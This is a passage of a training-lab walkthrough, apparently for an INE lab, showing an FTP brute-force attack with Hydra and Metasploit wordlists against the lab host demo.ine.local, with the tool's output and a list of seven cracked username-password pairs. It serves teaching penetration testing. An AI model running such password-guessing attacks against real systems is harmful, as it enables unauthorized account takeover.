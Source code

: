 
### **Step 3: Full Wordlist Attack**

**What We're Doing:** Using comprehensive wordlists to find all possible credentials

#### **Commands Used:**
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local -t 4 ftp
```

#### **🔧 Command Explanation:**
- **-L wordlist** - Use list of common usernames
- **-P wordlist** - Use list of common passwords  
- **-t 4** - Use 4 parallel connections for speed
- **demo.ine.local** - Our target system
- **ftp** - The service we're attacking

#### **🎉 Complete Success! What Happened:**
```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 4 tasks per 1 server, overall 4 tasks, 7963 login tries (l:7/p:1138), ~1991 tries per task
[DATA] attacking ftp://demo.ine.local:21/
[21][ftp] host: demo.ine.local   login: sysadmin   password: 654321
[21][ftp] host: demo.ine.local   login: rooty   password: qwerty
[21][ftp] host: demo.ine.local   login: demo   password: butterfly
[21][ftp] host: demo.ine.local   login: auditor   password: chocolate
[21][ftp] host: demo.ine.local   login: anon   password: purple
[21][ftp] host: demo.ine.local   login: administrator   password: tweety
[21][ftp] host: demo.ine.local   login: diag   password: tigger
7 of 1 target successfully completed, 7 valid passwords found
```

#### **🔓 What We Discovered:**
- **7 Valid Accounts** found on the FTP server
- **Weak Passwords** like "qwerty", "654321", "butterfly"
- **Different User Types** - admin accounts and regular users
- **No Security Controls** - no account lockout or rate limiting

#### **Credential Summary:**
```bash
sysadmin:654321      # System administrator account
rooty:qwerty         # Root/admin account with weak password
demo:butterfly       # Demo account
auditor:chocolate    # Audit account
anon:purple          # Anonymous-type account
administrator:tweety # Windows-style admin account
diag:tigger          # Diagnostic account
```

---